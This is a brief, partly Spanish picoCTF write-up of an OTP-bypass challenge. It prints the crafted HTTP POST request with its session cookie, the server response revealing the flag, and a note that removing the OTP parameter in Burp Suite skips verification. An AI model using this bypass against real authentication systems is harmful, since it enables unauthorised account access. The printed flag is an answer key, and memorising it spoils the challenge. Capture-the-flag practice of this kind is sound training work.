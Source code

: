 ## Objetivo
Try [here](http://titan.picoctf.net:55396/) to find the flag
## Solución
```bash
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:55396
Content-Length: 9
Cache-Control: max-age=0
Accept-Language: es-ES,es;q=0.9
Origin: http://titan.picoctf.net:55396
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.59 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:55396/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJxVjEsKAyEQBe_iOgsnKtFcRlrtJkPGD34IIeTu49JZVvFe_Zjf-5c9GYS4J3ZjvlWyPb8xTWmCJEeBAxIZxSU8gLuNNu2FIy4xcHNXisz80TgOmyDi0sq9TFJSC6EnFmjtk2tYFuWVE9o0osO66NGwXlr_E1jWNS4.Zx2tdA.M9l5Ui8MtuG8XzRY8p7pkJ3FrKk
Connection: keep-alive

otp=12345
```

```bash
Welcome, admin you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_c94b61ac}
```
## Notas Adicionales
Usando burpsuite evitamos la verificacion otp solamente quitando la linea que especifica el otp en el metodo post.
### Referencias